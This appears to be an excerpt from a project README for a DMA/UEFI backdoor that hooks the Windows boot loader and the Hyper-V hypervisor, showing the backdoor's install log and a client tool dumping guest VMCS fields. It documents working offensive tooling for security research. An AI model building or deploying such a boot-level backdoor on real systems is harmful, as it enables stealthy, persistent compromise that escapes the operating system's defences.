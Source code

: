 ```
DmaBackdoorHv.c(770) : Resident code base address is 0x8af41000
DmaBackdoorHv.c(605) : Protocol notify handler is at 0x8af41364
DmaBackdoorHv.c(630) : BackdoorEntryResident()
DmaBackdoorHv.c(641) : OpenProtocol() hook was set, handler = 0x8af42ff7
DmaBackdoorHv.c(646) : ExitBootServices() hook was set, handler = 0x8af43007
DmaBackdoorHv.c(418) : winload.dll is at 0x830000
DmaBackdoorHv.c(425) : winload!BlLdrLoadImage() is at 0x8c695c
DmaBackdoorHv.c(456) : 791 free bytes found at the end of the code section at 0x98cce9
DmaBackdoorHv.c(506) : winload!BlLdrLoadImage() hook was set, handler is at 0x8af414cc
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\hvix64.exe"
HyperV.c(369) : HyperVHook(): Hyper-V image is at 0xfffff80058245000
HyperV.c(388) : HyperVHook(): Resources section RVA is 0x1400000 (0x200000 bytes)
HyperV.c(425) : HyperVHook(): Code section RVA is 0x200000
HyperV.c(572) : HyperVHook(): Hyper-V VM exit handler is at 0xfffff80058475d10
HyperV.c(573) : HyperVHook(): Backdoor code size is 684 bytes
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\kdstub.dll"
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\hv.exe"
DmaBackdoorHv.c(540) : new_ExitBootServices() called
```

Dumping VMCS structure of the current guest:

```
> backdoor_client.exe 0 --vmcs
[+] Running on CPU #0
[+] VMCS dump:

             GUEST_ES_SELECTOR: 0x2b
             GUEST_CS_SELECTOR: 0x33
             GUEST_SS_SELECTOR: 0x2b
             GUEST_DS_SELECTOR: 0x2b
             GUEST_FS_SELECTOR: 0x53
             GUEST_GS_SELECTOR: 0x2b
           GUEST_LDTR_SELECTOR: 0x0
             GUEST_TR_SELECTOR: 0x40
              HOST_ES_SELECTOR: 0x20
              HOST_CS_SELECTOR: 0x10
              HOST_SS_SELECTOR: 0x20
              HOST_DS_SELECTOR: 0x20
              HOST_FS_SELECTOR: 0x20
              HOST_GS_SELECTOR: 0x20
              HOST_TR_SELECTOR: 0x30
                   IO_BITMAP_A: 0x7a3000
              IO_BITMAP_A_HIGH: 0x0
                   IO_BITMAP_B: 0x7a4000
              IO_BITMAP_B_HIGH: 0x0
                  GUEST_PDPTE0: 0x20000000000
                  GUEST_PDPTE1: 0x60000010000
                  GUEST_PDPTE2: 0x40000000000
                  GUEST_PDPTE3: 0x0
                   EPT_POINTER: 0x145f101e

  ...

```
